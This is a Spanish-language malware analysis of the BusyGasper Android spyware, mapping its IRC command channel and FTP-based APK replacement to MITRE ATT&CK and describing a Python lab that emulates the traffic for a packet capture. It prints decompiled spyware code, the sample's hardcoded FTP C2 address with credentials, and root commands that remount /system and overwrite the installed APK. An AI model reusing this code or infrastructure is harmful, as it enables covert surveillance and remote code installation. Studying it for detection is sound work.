

BusyGasper incorpora un cliente IRC completo en `com.android.system.bdata.af`. La infraestructura y las capacidades de la familia fueron descritas por Kaspersky en su [análisis de BusyGasper](https://securelist.com/busygasper-the-unfriendly-spy/87627/). La muestra abre una conexión en claro con el servidor configurado, registra un apodo propio, recibe órdenes mediante mensajes privados y devuelve resultados al operador por el mismo canal. Este comportamiento permite representar [T1481.002, Web Service: Bidirectional Communication](https://attack.mitre.org/techniques/T1481/002/).

Una de las órdenes admitidas, `#U`, inicia una descarga FTP, comprueba que el fichero recibido puede abrirse como ZIP y trata de copiarlo sobre el APK instalado. Esta segunda parte corresponde a [T1407, Download New Code at Runtime](https://attack.mitre.org/techniques/T1407/), aunque su ejecución depende de que la muestra considere disponibles los privilegios de root y de que concluyan correctamente la descarga y la sustitución.

El análisis se apoya en la APK abierta en JADX:

| Artefacto estudiado | Identidad | SHA-256 |
|---|---|---|
| APK original | Paquete `com.android.system.bdata`, versión `3.18s` y `minSdkVersion` 7 | `e1a660b6125bd0df2ecb6560e42d692c91d7ad958ee825d780561e481badc988` |

### División de canales de red

La arquitectura admite varios transportes que convergen en el mismo despachador de órdenes:

| Canal | Componentes principales | Uso observado |
|---|---|---|
| IRC | `af`, `DataService`, `l` | Recibe órdenes `#...` mediante mensajes privados y devuelve resultados con `PRIVMSG` |
| Gmail mediante IMAP y SMTP | `y`, `ai`, `aj` | Lee órdenes de los asuntos de correo y envía resultados o adjuntos |
| FTP | `aj`, `x`, `l` | Descarga y sube ficheros mediante sesiones FTP en modo pasivo |
| SMS | `SmsStart`, `DataService`, `l` | Entrega mensajes cuyo cuerpo contiene órdenes al mismo despachador local |

El flujo seleccionado utiliza IRC como canal C2 bidireccional. La orden llega y la respuesta funcional vuelve mediante el mismo servicio, lo que sustenta T1481.002. FTP aparece después como un transporte auxiliar: no sustituye al C2, sino que materializa la descarga solicitada por `#U` y permite observar T1407.

Los otros canales demuestran que el despachador no depende exclusivamente de IRC, pero no intervienen en la secuencia desarrollada ni deben añadirse artificialmente a la captura.

### Configuraciones

El constructor de `af` recupera de las preferencias el servidor IRC, la base del apodo y el nombre del operador:

```java
this.g = DataService.d.getString("iserv", "irc.freenode.net");
this.h = DataService.d.getString("nick", "Suny");
this.h = String.valueOf(this.h) + "-" + DataService.b;
this.i = DataService.d.getString("iboss", "IRCBoss");
```

| Preferencia | Valor predeterminado | Función |
|---|---|---|
| `iserv` | `irc.freenode.net` | Nombre del servidor IRC |
| `nick` | `Suny` | Base del apodo de la víctima |
| `iboss` | `IRCBoss` | Prefijo aceptado como origen de las órdenes |

`DataService.b` no es un identificador generado al azar. `bo.a(Context)` lo inicializa con el UID asignado a la aplicación:

```java
PackageInfo packageInfo = DataService.a.getPackageManager()
    .getPackageInfo(DataService.a.getPackageName(), 0);
DataService.b = packageInfo.applicationInfo.uid;
```

Por tanto, el apodo enviado a IRC adopta esta forma:

```text
Suny-<uid_aplicacion>
```

La configuración FTP se recupera en la rama de actualización y en los métodos auxiliares de `aj`:

```java
DataService.d.getString("fhost", "213.174.157.151")
DataService.d.getString("fuser", "ealexzna")
DataService.d.getString("fpass", "kl725x2408")
```

| Preferencia | Valor predeterminado | Función |
|---|---|---|
| `fhost` | `213.174.157.151` | Servidor FTP |
| `fuser` | `ealexzna` | Usuario FTP |
| `fpass` | `kl725x2408` | Contraseña FTP |

El host FTP es una dirección literal, por lo que esta ruta no necesita una consulta DNS. También existe una implementación alternativa basada en el comando externo `busybox ftpget`:

```java
DataService.d.getString(
    "pfg",
    "busybox ftpget -u ealexzna -p kl725x2408 213.174.157.151"
)
```

La preferencia booleana `pfbb` selecciona esa alternativa. El flujo estudiado mantiene su valor desactivado y utiliza el cliente FTP interno `x`, que permite reconstruir cada orden enviada por el socket de control.

### Estructura general del canal IRC

`af.run()` abre un socket TCP directo contra el servidor almacenado en `iserv`. El puerto 6667 está fijado en el código:

```java
f = new Socket(this.g, 6667);
b = new BufferedWriter(
    new OutputStreamWriter(f.getOutputStream()),
    2048
);
c = new BufferedReader(
    new InputStreamReader(f.getInputStream()),
    8192
);
```

No existe TLS en esta ruta. Cuando `iserv` conserva el valor predeterminado, Android debe resolver primero `irc.freenode.net`; después abre la conexión TCP y el contenido IRC queda visible en claro.

La muestra registra el apodo y el usuario inmediatamente después de crear los flujos de entrada y salida:

```java
b.write("NICK " + this.h + "\r\n");
b.write("USER " + this.h + " 8 * : IRC Client\r\n");
b.flush();
```

La conversación comienza así:

```irc
NICK Suny-<uid_aplicacion>
USER Suny-<uid_aplicacion> 8 * : IRC Client
```

No se observa una orden `JOIN`; el mando se realiza exclusivamente mediante mensajes privados. La muestra tampoco espera el numérico `001` para considerar terminada la fase de registro. La variable de conexión pasa a verdadero cuando recibe una línea que contiene ` 004`:

```java
if (line.contains(" 004")) {
    bq.a("IConnected");
    a = true;
    DataService.r = 0;
}
```

El servidor puede enviar antes los demás mensajes de bienvenida, pero `004` es la transición que habilita el bucle operativo:

```irc
:irc.freenode.net 001 Suny-<uid_aplicacion> :Welcome
:irc.freenode.net 002 Suny-<uid_aplicacion> :Your host is ...
:irc.freenode.net 003 Suny-<uid_aplicacion> :This server was created ...
:irc.freenode.net 004 Suny-<uid_aplicacion> irc.freenode.net <version> <usermodes> <chanmodes>
```

El numérico `433` indica que el apodo ya está ocupado. En ese caso la aplicación añade un guion y repite `NICK`:

```java
if (line.contains(" 433")) {
    this.h = String.valueOf(this.h) + "-";
    b.write("NICK " + this.h + "\n");
    b.flush();
}
```

El segundo intento, a diferencia del registro inicial, termina solo en `LF` porque esa es la cadena literal utilizada. El numérico `432` provoca el cierre con el estado interno `IBadNick`.

### Mantenimiento de la conexión IRC

El cliente responde a los desafíos enviados por el servidor. Si una línea comienza por `PING `, conserva el argumento recibido y devuelve `PONG`:

```java
if (line2.startsWith("PING ")) {
    b.write("PONG " + line2.substring(5) + "\r\n");
    b.flush();
}
```

```irc
PING :irc.freenode.net
PONG :irc.freenode.net
```

La muestra también comprueba activamente la sesión cuando deja de recibir actividad. El argumento de su `PING` es el apodo registrado:

```java
b.write("PING :" + this.h + "\r\n");
b.flush();
```

```irc
PING :Suny-<uid_aplicacion>
```

Un `PONG` dirigido a ese apodo reinicia el contador de intentos:

```java
if (line2.contains(" PONG ")
        && line2.endsWith(":" + this.h)) {
    jElapsedRealtime3 = SystemClock.elapsedRealtime();
    i = 0;
}
```

Estos intercambios mantienen la conexión, pero no contienen órdenes. En la captura se distinguen de los mensajes de mando porque estos últimos utilizan `PRIVMSG` y deben comenzar por el prefijo configurado en `iboss`.

### Recepción de comandos por IRC

Dentro del bucle operativo, `af.run()` solo examina como posible origen de mando las líneas que comienzan por `:` seguido del valor de `iboss`:

```java
} else if (line2.startsWith(":" + this.i)) {
    String strSubstring = line2.substring(
        line2.substring(1).indexOf(58) + 2
    );
    if (strSubstring.equals("stop") || strSubstring.equals("!")) {
        l = true;
    }
    if (strSubstring.charAt(0) == '#') {
        jElapsedRealtime4 = SystemClock.elapsedRealtime();
        DataService.c(strSubstring);
    } else {
        bq.a(strSubstring, false);
    }
}
```

Con la configuración predeterminada, una orden presenta esta estructura:

```irc
:IRCBoss!<usuario>@<origen> PRIVMSG Suny-<uid_aplicacion> :#<orden>
```

La comprobación no autentica una identidad IRC completa: se limita a `startsWith(":IRCBoss")`. Por ello, el valor funciona como un prefijo de confianza débil y no como una validación criptográfica del operador.

La parte posterior al separador del mensaje se entrega a `DataService.c()`. Solo las cargas cuyo primer carácter es `#` llegan al despachador de órdenes. Por ejemplo:

```irc
:IRCBoss!boss@lab PRIVMSG Suny-<uid_aplicacion> :#?
```

```irc
:IRCBoss!boss@lab PRIVMSG Suny-<uid_aplicacion> :#Uupdate.apk
```

Los textos `stop` y `!` tienen un tratamiento especial: activan la bandera que interrumpe o limita el envío de respuestas. Cualquier otro texto sin `#` se registra, pero no se ejecuta como orden técnica.

### Despachador interno de órdenes

El mensaje no ejecuta directamente la operación. `DataService.c(String)` lo entrega al procesamiento interno y la clase ofuscada `l` recorre la cadena en busca de caracteres `#` no escapados:

```java
while (i8 < str.length() && (cCharAt = str.charAt(i8)) >= ' ') {
    if (cCharAt == '#'
            && (i8 <= 0 || str.charAt(i8 - 1) != '\\')) {
        int i9 = i8 + 1;
        switch (str.charAt(i9)) {
            ...
        }
    }
    i8++;
}
```

El diseño permite concatenar varias órdenes en una sola cadena. La propia inicialización utiliza esta forma:

```java
c("ifs60-1111#is60-1111#ifr60-1111#ir60-1111#ii60-1111");
```

Entre las ramas con consecuencias de red destacan:

| Orden | Efecto observado |
|---|---|
| `#?` | Construye el estado de la víctima |
| `#ir` | Solicita la lectura de órdenes mediante Gmail cuando no incluye parámetros |
| `#is` | Inicia el envío de información o ficheros mediante Gmail |
| `#ifr` | Recupera mediante FTP el fichero de órdenes o el nombre indicado |
| `#ifs` | Envía mediante FTP el fichero indicado |
| `#U<nombre>` | Descarga un fichero y trata de sustituir el APK instalado |
| `#$` | Captura la pantalla y prepara el envío del resultado |
| `#B` / `#b` | Emite una difusión Android interna o externa |
| `#C` / `#c` | Programa otra orden para su ejecución posterior |
| `#z...` | Agrupa operaciones auxiliares de configuración y control |

La relación entre las dos técnicas seleccionadas aparece en `#U`: la orden entra mediante IRC, se interpreta localmente y crea después la sesión FTP que transporta el nuevo código.

### Estructura de respuestas por IRC

Los resultados generados mediante `bq.b(String)` terminan en el subsistema IRC. `bq` registra el texto y llama a `af.b()`, que lo entrega al hilo de salida. Finalmente, `af.g(String)` acumula las respuestas pendientes, las divide por saltos de línea y envía cada una al operador configurado:

```java
String string = DataService.d.getString("iboss", "IRCBoss");
for (String str2 : p.split("\n")) {
    if (l || !a) {
        break;
    }
    String strTrim = str2.trim();
    if (strTrim.length() > 0 && b != null) {
        b.write(
            "PRIVMSG " + string + " :" + strTrim + "\r\n"
        );
        b.flush();
    }
}
```

La forma observable es:

```irc
PRIVMSG IRCBoss :<linea_de_respuesta>
```

La orden `#?` utiliza `DataService.c()` para construir el estado. Su primera línea combina la base opcional del apodo, el UID, la versión, la batería y el estado de conectividad:

```java
return "#" + string + b
    + " v3.18s " + b() + "%" + e()
    + "\r\n" + bn.b()
    + "\r\n" + v() + " " + u()
    + "\r\n" + str;
```

```text
#Suny-<uid_aplicacion> v3.18s <bateria>%<estado_conectividad>
```

Como IRC se organiza por líneas, una respuesta extensa se convierte en varios `PRIVMSG`. El cliente limita además el ritmo: después de más de ocho líneas en menos de cinco segundos introduce pausas de un segundo. Esta temporización explica por qué una misma respuesta puede aparecer fragmentada y espaciada en la captura.

### Orden de actualización y T1407

La rama `U` comienza extrayendo el argumento y consultando `bo.a`, la bandera que representa la disponibilidad de privilegios:

```java
case 'U':
case 'u':
    String strA20 = DataService.a(str, i9, (String) null);
    if (strA20 == null) {
        bq.b("CMD err");
    } else if (bo.a) {
        ...
    } else {
        bq.b("No root");
    }
```

La orden no ejecuta `id` en ese momento. `bo.a(Context)` carga primero la preferencia `proo`, y durante un arranque limpio `DataService.onCreate()` actualiza la bandera mediante `bo.a()`:

```java
bo.a = DataService.d.getBoolean("proo", false);
```

```java
if (d.getString("prmti", null) == null) {
    ...
    bo.a = bo.a();
}
```

La comprobación utilizada en ese arranque ejecuta `id` y busca la cadena `root`:

```java
public static boolean a() {
    boolean z = a;
    a = true;
    String strC = c("id");
    a = z;
    return strC != null && strC.contains("root");
}
```

Por tanto, `#U` depende del estado de root almacenado previamente. Si la bandera es falsa, la única respuesta de esta rama es `No root` y no se abre ninguna conexión FTP.

Cuando la condición se cumple, el argumento se divide por comas. El primer elemento es el fichero remoto; un segundo elemento numérico modifica el tiempo de espera y uno no numérico se interpreta como paquete candidato:

```java
String[] strArrSplit8 = strA20.split(",");
if (strArrSplit8.length > 1) {
    try {
        i26 = Integer.parseInt(strArrSplit8[1]);
    } catch (Exception e) {
        strSubstring4 = strArrSplit8[1];
    }
    strA20 = strArrSplit8[0];
}
```

Las formas aceptadas incluyen:

```text
#Uupdate.apk
#Uupdate.apk,30
#Uupdate.apk,com.android.system.bdata
```

Sin un paquete explícito, la muestra elimina la extensión `.apk` y prueba ese nombre con `PackageManager`. Para `update.apk`, el candidato es `update`; si no existe, utiliza `DataService.g`, que `bo.a(Context)` había inicializado con el `sourceDir` de la propia aplicación:

```java
DataService.g = packageInfo.applicationInfo.sourceDir;
```

La ruta positiva reconstruida y reproducida en el laboratorio corresponde a este fallback sobre `com.android.system.bdata`. Aunque el código acepta un segundo parámetro de paquete y consulta su `sourceDir`, no es necesario atribuirle una actualización fiable de aplicaciones arbitrarias para demostrar T1407.

Tras coordinar internamente el reinicio del canal IRC y esperar su estado, la muestra llama a `aj.a()` con el host, las credenciales, el nombre remoto y la ruta local:

```java
aj.a(
    DataService.d.getString("fhost", "213.174.157.151"),
    DataService.d.getString("fuser", "ealexzna"),
    DataService.d.getString("fpass", "kl725x2408"),
    strA20,
    String.valueOf(DataService.c) + strA20
)
```

En el flujo simplificado, los parámetros son:

| Parámetro | Valor | Función |
|---|---|---|
| Host | `213.174.157.151` | Servidor FTP predeterminado |
| Usuario | `ealexzna` | Identidad de acceso |
| Contraseña | `kl725x2408` | Credencial de acceso |
| Fichero remoto | `update.apk` | Carga solicitada con `RETR` |
| Destino local | Directorio privado seguido de `update.apk` | Fichero que se valida y copia |

`aj.a()` encadena la conexión, la autenticación y la descarga con el cliente interno `x`:

```java
if (!xVar.a(str)
        || !xVar.a(str2, str3)
        || !xVar.b(str4, str5)) {
    string = xVar.c();
    bq.b("FTR: " + string);
}
```

`xVar.a(str)` abre el control FTP en TCP/21 y lee el saludo. `xVar.a(str2, str3)` envía las credenciales en minúsculas, tal como aparecen en las cadenas construidas por el código:

```ftp
S: 220 <banner_ftp>
C: user ealexzna
S: 331 <solicitud_de_contraseña>
C: pass kl725x2408
S: 230 <sesion_iniciada>
```

La descarga utiliza modo pasivo. `f()` envía `pasv`, extrae la dirección y el puerto de la respuesta `227` y abre un segundo socket:

```java
String strC = c("pasv");
String[] strArrSplit = strC
    .substring(strC.indexOf(40) + 1, strC.indexOf(41))
    .split(",");
return new Socket(
    str,
    (Integer.parseInt(strArrSplit[4]) << 8)
        + Integer.parseInt(strArrSplit[5])
);
```

```ftp
C: pasv
S: 227 Entering Passive Mode (<ip1>,<ip2>,<ip3>,<ip4>,<p1>,<p2>)
```

El puerto de datos es `p1 × 256 + p2`. Una vez abierto ese socket, el cliente fija el tipo binario y solicita el fichero:

```java
this.e.write("type i\r\n");
this.e.flush();
this.e.write(String.valueOf(str) + "\r\n");
this.e.flush();
```

```ftp
C: type i
S: 200 <tipo_binario_aceptado>
C: retr update.apk
S: 150 <transferencia_iniciada>
```

`RETR` solo inicia la operación. Los bytes del APK circulan desde el servidor hacia la víctima por el socket pasivo, mientras que `150` y `226` permanecen en el control FTP. Al cerrar el cliente, se envía `quit`:

```ftp
S: 226 <transferencia_completada>
C: quit
S: 221 <cierre>
```

`aj.a()` utiliza la cadena `: ` como indicador interno de éxito. Después, la rama `U` abre el fichero descargado como `ZipFile`; si la operación falla, genera `<nombre> err`:

```java
ZipFile zipFile = new ZipFile(
    new File(String.valueOf(DataService.c) + strA20)
);
zipFile.close();
```

La sustitución se realiza mediante una orden `cp` ejecutada con el directorio privado de la aplicación como directorio de trabajo. Si el destino comienza por `/system/`, la muestra intenta remontar primero la partición en lectura y escritura:

```java
boolean zStartsWith = str3.startsWith("/system/");
if (zStartsWith && !bo.b("mount -o rw,remount /system")) {
    ...
} else if (bo.b("cp " + strA20 + " " + str3)) {
    bq.b(String.valueOf(strSubstring4) + " updated");
    if (zStartsWith) {
        bo.c("mount -o ro,remount /system");
    }
}
```

No se usa `DexClassLoader` ni se carga el fichero dentro del proceso actual. La capacidad descarga código nuevo y reemplaza el APK instalado; ese código pasa a utilizarse cuando se crea un proceso posterior. Las órdenes internas destinadas a coordinar el reinicio son eventos locales y no añaden otro protocolo al PCAP.

Si la ruta concluye sobre el paquete propio, `bq.b()` prepara la respuesta `com.android.system.bdata updated`, que puede salir hacia el operador mediante IRC. Entre los resultados alternativos se encuentran `No root`, `FTR: <error>` y `update.apk err`.

### Secuencia comunicativa



La primera mitad demuestra el uso bidireccional de IRC: una orden entra mediante `PRIVMSG` y la respuesta funcional sale por otro `PRIVMSG` dentro de la misma sesión. La segunda muestra la descarga de código por FTP, con el control en TCP/21 y el contenido binario en una conexión pasiva independiente.

La respuesta `226` solo acredita que el servidor FTP ha terminado la transferencia. No equivale a una actualización correcta. La confirmación funcional aparece después de abrir el fichero como ZIP y ejecutar la copia sobre `sourceDir`; si falla cualquiera de esas etapas, el texto devuelto por IRC será distinto.

### Laboratorio de generación del PCAP

El laboratorio emula mediante Python la ruta positiva reconstruida. No ejecuta la APK original ni reproduce las operaciones locales de root, apertura de `ZipFile` o sustitución de `sourceDir`; genera tráfico real por sockets para que el PCAP contenga la conversación IRC y la transferencia FTP coherentes con el código.

| Entidad | Dirección y servicio | Procedencia |
|---|---|---|
| Víctima emulada | `10.65.5.10` | Dirección privada asignada al cliente dentro de la topología aislada. |
| Operador emulado | `10.65.5.20` | Dirección privada asignada al segundo participante del canal IRC. |
| Resolutor DNS | `8.8.8.8:53` | Dirección publicada para Google Public DNS; el servicio se emula dentro del *namespace* aislado. |
| Servicio IRC | `149.28.246.185:6667` | Respuesta A de `irc.freenode.net` obtenida el 20 de agosto de 2026. Representa el servicio legítimo abusado y no infraestructura propia de BusyGasper. |
| Servidor de actualización | `213.174.157.151:21` y `213.174.157.151:20200` | IP literal configurada por defecto en la muestra y publicada por [Kaspersky](https://securelist.com/busygasper-the-unfriendly-spy/87627/) como C2 FTP de BusyGasper. TCP/20200 es el puerto pasivo fijado por el laboratorio. |

| Componente | Función |
|---|---|
| `busygasper_traffic_emulator/run_emulation.py` | Orquesta las entidades y la secuencia completa |
| `entities/busygasper_victim.py` | Emula el registro IRC, procesa `#U` y actúa como cliente FTP |
| `entities/irc_server.py` | Implementa el servidor IRC local |
| `entities/irc_operator.py` | Envía la orden privada desde `IRCBoss` |
| `entities/ftp_server.py` | Sirve el control FTP y la conexión de datos pasiva |
| `downloads/update.apk` | Carga ZIP inocua utilizada en la transferencia |
| `Corefile` | Resuelve `irc.freenode.net` hacia `149.28.246.185` |

Este escenario está automatizado en `python-labnet` con el identificador `busygasper`. La ejecución coordinada de las entidades y la generación de la captura se describen en la [guía central de laboratorios Python](Laboratorios%20Python.md).

| Protocolo | Puerto del laboratorio |
|---|---:|
| DNS | 53/UDP |
| IRC | 6667/TCP |
| Control FTP | 21/TCP |
| Datos FTP pasivos | 20200/TCP |

La víctima emulada consulta `irc.freenode.net` mediante el resolutor `8.8.8.8` y recibe `149.28.246.185` como respuesta. La conexión FTP se dirige a `213.174.157.151`, que conserva el valor predeterminado de la muestra. El puerto 20200 deriva del anuncio pasivo `(213,174,157,151,78,232)`, ya que `78 × 256 + 232 = 20200`.

La captura resultante debe mostrar el registro IRC, el numérico `004`, la orden `#Uupdate.apk`, la autenticación FTP, `pasv`, la apertura del socket de datos, `type i`, `retr update.apk`, la transferencia binaria, `226`, `quit` y la respuesta IRC final. La dirección asignada al servicio IRC, el puerto pasivo y el contenido de `update.apk` son valores controlados del laboratorio; la dirección FTP sí procede de la configuración predeterminada de BusyGasper.
